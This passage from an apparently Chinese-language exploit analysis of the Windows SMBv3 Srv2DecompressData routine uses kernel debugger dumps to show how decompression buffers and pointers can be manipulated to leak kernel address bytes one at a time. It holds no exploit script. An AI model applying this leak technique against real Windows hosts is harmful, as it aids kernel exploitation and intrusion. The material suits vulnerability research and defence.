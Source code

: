 ```
```

以下为分配的0x4100的缓冲区，其User Buffer首地址为0xffffa50835a92050：

```
kd&gt; g
alloc: ffffa508`35a92050  cf8b48d6 006207e8 ae394c00 00000288
srv2!Srv2DecompressData+0x85:
fffff802`51ce7ee5 488bd8          mov     rbx,rax
kd&gt; dd rax
ffffa508`35a96150  a1e83024 48fffaef 4810478b 30244c8d
ffffa508`35a96160  00020002 00000000 35a92050 ffffa508
ffffa508`35a96170  00004100 00000000 000042a8 245c8b48
```

由于解压成功，所以进入memcpy流程，0x2100缓冲区的User Buffer指针0xffffa50836240050被复制到0x4100缓冲区偏移0x2108处:

```
kd&gt; dd ffffa508`35a92050 + 2100
ffffa508`35a94150  840fc085 000000af 24848d48 000000a8
ffffa508`35a94160  24448948 548d4120 b9410924 00000eda
kd&gt; p
srv2!Srv2DecompressData+0x10d:
fffff802`51ce7f6d 8b442460        mov     eax,dword ptr [rsp+60h]
kd&gt; dd ffffa508`35a92050 + 2100
ffffa508`35a94150  00010002 00000000 36240050 ffffa508
ffffa508`35a94160  00002100 548d1111 b9410924 00000eda
```

然后下一步是覆盖 0x4100缓冲区中存放的0x2100缓冲区User Buffer Ptr 中 08 a5 后面的ffff等数据（由于地址都是以0xffff开头，所以这两个字节可以不用测）。为了不破坏前面的数据（不执行memcpy），要使得解压失败（在压缩的测试数据后面填充\xFF），但成功解压出测试数据。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a615b4f9ccb1f20c.png)

以下为解压前后保存的User Buffer Ptr 的状态，可以发现解压后的数据正好满足之前所讲的单字节泄露模式，如果可欺骗程序使其解压0xffffa50835a9415d处的数据，就可以通过多次测试泄露出最高位0xa5：

```
//待解压数据
kd&gt; dd ffffa508`31edb050+10+210e
ffffa508`31edd16e  b014b007 ff007e00 ffff007c ffffffff
ffffa508`31edd17e  ffffffff ffffffff ffffffff ffffffff
